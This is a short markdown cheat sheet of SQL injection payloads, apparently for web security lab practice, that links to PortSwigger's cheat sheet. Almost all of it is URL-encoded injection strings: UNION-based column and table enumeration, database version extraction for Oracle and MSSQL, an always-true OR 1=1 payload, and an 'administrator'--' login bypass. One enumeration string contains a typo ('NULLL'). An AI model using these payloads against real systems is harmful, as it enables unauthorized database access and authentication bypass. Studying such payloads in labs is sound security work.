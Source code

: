 ## SQLi Cheatsheet
https://portswigger.net/web-security/sql-injection/cheat-sheet

## Column Enumeration
'+UNION+SELECT+NULL,NULLL--

## Table Enumeration
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- (non oracle)


## Version Enumeration
'+UNION+SELECT+BANNER,+NULL+FROM+v$version-- (Oracle)
'+UNION+SELECT+@@version,+NULL# (Windows & MSSql)

## General Payloads
```
'+OR+1=1--

```

## Auth Bypass
```
administrator'--

